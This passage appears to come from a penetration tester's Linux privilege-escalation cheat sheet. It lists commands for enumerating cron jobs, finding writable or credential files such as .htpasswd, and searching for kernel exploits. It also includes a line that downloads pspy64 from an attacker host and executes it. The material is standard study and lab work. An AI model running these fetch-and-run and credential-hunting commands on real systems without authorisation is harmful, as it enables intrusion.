 ```
cat /etc/crontab
crontab -l
ls -lah /etc/cron*
grep "CRON" /var/log/cron.log
```

```
wget http://attacker.com/pspy64 && chmod +x pspy64 && ./pspy64
```

## Finding files of interest
  *  [`find`](https://man7.org/linux/man-pages/man1/find.1.html) for recursively searching files based on permissions
  *  Interesting filesystem contents to search for:
      *  Anything in `/etc` not owned by root/shadow
      *  Anything readable/writeable in `/etc`, `/home`, `/var`, `/usr`, and `/opt`
      *  Media or mounts in `/media` and `/mnt`
      *  Writable directories under any PATH variable

```
ls -la /etc
find /home -readable 2>/dev/null
find / -writable -type d 2>/dev/null
find / -user root -writable 2>/dev/null
find / -group admins -readable 2>/dev/null
find / -name "*phpmyadmin*" 2>/dev/null
find / -name "*.htpasswd" 2>/dev/null
for dir in $(echo $PATH | awk '{split($0,n,":");for(i=0;++i<=length(n);) print(n[i])}'); do [ -w $dir ] && echo $dir; done
```

## Kernel exploits
  *  Enumerate distro/kernel details and search accordingly
      *  Enumerate kernel hardening features with `LES`
  *  `Google`, `searchsploit`, and `linux-exploit-suggester` for finding Linux kernel exploits
  *  Compile exploits for different/older kernels within `docker` or a VM

```
bash linux-exploit-suggester.sh
bash linux-exploit-suggester.sh --checksec
```
